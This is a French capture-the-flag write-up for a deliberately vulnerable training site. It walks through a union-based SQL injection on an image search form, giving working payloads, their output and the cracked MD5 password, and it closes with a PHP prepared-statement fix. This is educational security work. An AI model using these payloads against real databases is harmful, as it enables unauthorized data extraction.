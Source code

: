 
# Explications

Dans la page "searchimg", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form action="#" method="GET" data-children-count="1">
	<input type="hidden" name="page" value="searchimg">
	<input type="text" name="id">
	<br>
	<input type="submit" name="Submit" value="Submit">
</form>
```
On sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues grâce a la faille précedente.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les imgs s'affichent
<pre>
ID: 1 OR 1=1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 OR 1=1 
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 OR 1=1 
Title: Google
Url : https://www.google.fr/google.png

ID: 1 OR 1=1 
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 OR 1=1 
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce de **Title** et d' **Url**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **list_images** qui contient les colonnes :
1. id
2. url
3. title
4. comment

On cherche donc des informations intéressantes.

On try 2 part 2 les champs jusqu'à trouver 1 colonne intéressant, **title** qui donne (avec **Url**):

<code>1 or 1=1 UNION select url, comment from list_images</code>

<pre>
ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: An image about the NSA !
Url : https://www.nsa.org/img.jpg

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: There is a number..
Url : https://www.42.fr/42.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Google it !
Url : https://www.google.fr/google.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Yes we can !
Url : https://www.obama.org/obama.jpg

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png

ID: 1 or 1=1 UNION select url, comment from list_images 
Title: Because why not ?
Url : https://www.h4x0r3.0rg/tr0ll.png
</pre>

Le password <code>1928e8083cf461a51303633093573c46</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>albatroz</pre>
On applique un Sha256, car c'est deja lower, pour obtenir le flag

# Comment l'éviter?
Il suffit d'utiliser le <code>prepare</code> quand on fait des requêtes à la base de données comme dans l'exmple ci-dessous:

```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=name', 'mdp', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM users WHERE id = :id");

			// On lie la variable $id définie au-dessus au paramètre :id de la requête préparée
			$requete->bindValue(':id', $id, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'INFORMATIONS';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}
?>
```